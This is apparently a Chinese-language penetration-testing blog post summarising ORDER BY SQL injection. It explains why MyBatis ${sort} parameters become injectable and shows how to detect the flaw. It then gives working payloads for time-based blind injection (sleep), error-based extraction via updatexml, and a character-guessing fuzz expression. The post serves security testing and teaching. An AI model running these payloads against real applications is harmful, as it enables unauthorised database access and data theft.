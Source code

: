 ```yaml
---
layout: post
title: Order by 注入总结
categories: [Pen-test]
Description: Order by 注入总结
keywords: SQL
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```




Description: Order by注入总结。

## 判断order by注入

当你看到一个查询结果有排序小箭头时，要额外注意，这可能一个SORT(排序)键值，抓包后可能是这样的。
    
![](/images/orderbysql/1.png)

后端SQL语句就差不多类似
        
```shell

select * from table where id =1 order by zzf desc;

```

这种地方在java-mybatis环境中容易引发注入问题，原因很简单，在mybatis中order by ${sort}传的是列名不能用#{}，因此需要额外用白名单处理。有的开发没处理就有注入了。

如何判断这里有order by注入呢？很简单，原理跟最基础的联合注入利用order by爆破字段数量是一样的。
order by (1)  不报错
order by (10000000) 报错
    
这样就基本能判断出来这里有order by注入了。
当然也可以直接order by sleep(1)。
    
## order by注入利用
    
### 时间盲注
    
能用sleep(1)就能构造最简单的基于时间延迟的布尔盲注。

select * from test_table order by if(1=1,sleep(1),1);
    
![](/images/orderbysql/swappy-20241204-164412.png)
    
> 但它有个很大的缺点，就是有几条数据就重复几次sleep(1)。
    
### 报错注入
    
经典的updatexml()
    
```shell

select * from test_table  order by updatexml(1,concat(0x7e,(select user()),0x7e),1);

```
    
![](/images/orderbysql/swappy-20241204-164602.png)
    
## FUZZ
    
```shell

(case when substr(CURRENT_USER,1,1)='r' then rand(exp(99999999)) else 1 end)

```
    
![](/images/orderbysql/swappy-20241204-164812.png)

